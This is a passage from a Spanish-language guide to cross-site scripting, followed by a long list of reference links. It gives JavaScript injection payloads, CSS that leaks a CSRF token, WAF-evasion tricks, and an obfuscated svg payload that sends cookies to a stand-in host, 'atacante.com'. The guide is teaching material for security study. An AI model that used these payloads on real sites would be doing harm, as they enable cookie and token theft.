 ### Inyección en JavaScript

```javascript
// Contexto: String literal
var username = 'AQUÍ_INPUT';
// Payload: ';alert(document.domain);var ignore='

// Contexto: Numérico
var userId = AQUÍ_INPUT;
// Payload: 1; alert(1)
```

### Inyección en CSS

```css
/* Robo de datos con CSS */
input[name="csrf_token"][value^="a"] { 
  background-image: url("http://atacante.com/log?char=a"); 
}
```

## Técnicas Avanzadas de Evasión

### Evasión de Filtros WAF

**Case Insensitivity:**

```html
<ScRiPt>alert(1)</sCrIpT>
```

**Codificación:**

```html
<!-- URL Encoding -->
%3Cscript%3Ealert(1)%3C/script%3E

<!-- HTML Entities -->
<script>alert(1)</script>

<!-- Hexadecimal -->
<svg/onload=\u0066\u0065\u0074\u0063\u0068(`//atacante.com?cookie=`+document.cookie)>
```

**Tags Alternativos:**

```html
<img src=x onerror=alert(1)>
<svg onload=alert(1)></svg>
<iframe src="javascript:alert(1)"></iframe>
<details open ontoggle=alert(1)>
<marquee onstart="alert(1)">
```

**Obfuscación JavaScript:**


[^1]: https://www.jit.io/resources/app-security/what-is-cve-2024-44308-xss-and-how-to-protect-from-it
[^2]: https://www.invicti.com/blog/web-security/2024-cwe-top-25-list-xss-sqli-buffer-overflows/
[^3]: https://portswigger.net/web-security/cross-site-scripting
[^4]: https://www.securityjourney.com/post/understanding-the-4-types-of-cross-site-scripting-xss-vulnerabilities
[^5]: https://owasp.org/www-community/attacks/xss/
[^6]: https://www.uprootsecurity.com/blog/stored-xss-attack-explained
[^7]: https://cyberphinix.de/blog/xss-basics/
[^8]: https://community.f5.com/kb/technicalarticles/cross-site-scripting-xss-exploit-paths/275166
[^9]: https://www.vaadata.com/blog/dom-based-xss-attacks-principles-impacts-exploitations-and-security-best-practices/
[^10]: https://www.twingate.com/blog/glossary/mutation-xss-attack
[^11]: https://kpmg.co.il/technologyconsulting/blog/what-is-mutation-xss-mxss
[^12]: https://curity.io/resources/learn/oauth-xss-prevention/
[^13]: https://www.browserstack.com/guide/csp-bypass
[^14]: https://www.angularminds.com/blog/vulnerabilities-and-solutions-for-react-js-security
[^15]: https://pentescope.com/essential-xss-prevention-strategies-for-developers/
[^16]: https://www.stackhawk.com/blog/angular-xss-guide-examples-and-prevention/
[^17]: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection
[^18]: https://portswigger.net/kb/issues/00200308_client-side-template-injection
[^19]: https://www.paloaltonetworks.com/blog/cloud-security/template-injection-vulnerabilities/
[^20]: https://www.cloudflare.com/learning/security/how-to-prevent-xss-attacks/
[^21]: https://www.securityjourney.com/post/mitigating-preventing-cross-site-scripting-xss-vulnerabilities-an-example
[^22]: https://github.com/Ant1sec-ops/CVE-2024-30875
[^23]: https://www.code-intelligence.com/blog/what-is-cross-site-scripting
[^24]: https://www.vaadata.com/blog/xss-cross-site-scripting-vulnerabilities-principles-types-of-attacks-exploitations-and-security-best-practices/
[^25]: https://www.appgate.com/blog/cross-site-scripting-xss-in-bigid-privacy-portal
[^26]: https://vercel.com/guides/understanding-xss-attacks
[^27]: https://www.memcyco.com/guide-to-preventing-xss-attacks/
[^28]: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
[^29]: https://security.snyk.io/vuln/SNYK-RUBY-BOOTSTRAP-7640987
[^30]: https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS
[^31]: https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-9.0
[^32]: https://www.reddit.com/r/bugbounty/comments/1g8hffv/new_xss_attack_techniques_2024/
[^33]: https://www.invicti.com/learn/cross-site-scripting-xss/
[^34]: https://arxiv.org/html/2504.08176v1
[^35]: https://www.linkedin.com/pulse/mastering-xss-advanced-techniques-bypass-web-application-firewalls-r9thc
[^36]: https://www.softwaresecured.com/post/types-of-xss-attacks
[^37]: https://www.acunetix.com/blog/articles/xss-filter-evasion-bypass-techniques/
[^38]: https://akimbocore.com/article/finding-dom-xss/
[^39]: https://www.cobalt.io/vulnerability-wiki/v5-validation-sanitization/reflected-xss-waf-bypass
[^40]: https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/
[^41]: https://www.cyberchief.ai/2024/11/dom-based-xss-fix.html
[^42]: https://brightsec.com/blog/how-i-bypassed-an-imperva-waf/
[^43]: https://nvd.nist.gov/vuln/detail/cve-2024-20800
[^44]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
[^45]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[^46]: https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-8184974
[^47]: https://www.sysdig.com/blog/fuzzing-and-bypassing-the-aws-waf
[^48]: https://www.hackerone.com/knowledge-center/how-xss-payloads-work-code-examples-and-how-prevent-them
[^49]: https://onlinelibrary.wiley.com/doi/abs/10.1002/nem.2264
[^50]: https://www.vaadata.com/blog/content-security-policy-bypass-techniques-and-security-best-practices/
[^51]: https://www.sonarsource.com/blog/mxss-the-vulnerability-hiding-in-your-code/
[^52]: https://payatu.com/blog/content-security-policy/
[^53]: https://www.sans.org/white-papers/40380/
[^54]: https://jorianwoltjer.com/blog/p/research/mutation-xss
[^55]: https://www.cobalt.io/blog/csp-and-bypasses
[^56]: https://sonarsource.github.io/mxss-cheatsheet/examples/
[^57]: https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques
[^58]: https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
[^59]: https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass
[^60]: https://notes.theoffsecgirl.com/06-hacking-ios/06e-owasp-mobile-top-10
[^61]: https://github.com/requarks/wiki/security/advisories/GHSA-xjcj-p2qv-q3rf
[^62]: https://www.reddit.com/r/xss/comments/13rghb4/does_xss_exists_in_framework_like_react_vue_and/
[^63]: https://flatt.tech/research/posts/why-xss-persists-in-this-frameworks-era/
[^64]: https://www.invicti.com/web-application-vulnerabilities/client-side-template-injection
[^65]: https://www.cybersrely.com/how-to-prevent-xss-in-restful-apis/
[^66]: https://hackerone.com/reports/2234564
[^67]: https://thehackernews.com/2025/07/why-react-didnt-kill-xss-new-javascript.html
[^68]: https://security.snyk.io/vuln/SNYK-PHP-LARAVELFRAMEWORK-9400966
[^69]: https://www.invicti.com/web-application-vulnerabilities/angularjs-client-side-template-injection
[^70]: https://vuejs.org/guide/best-practices/security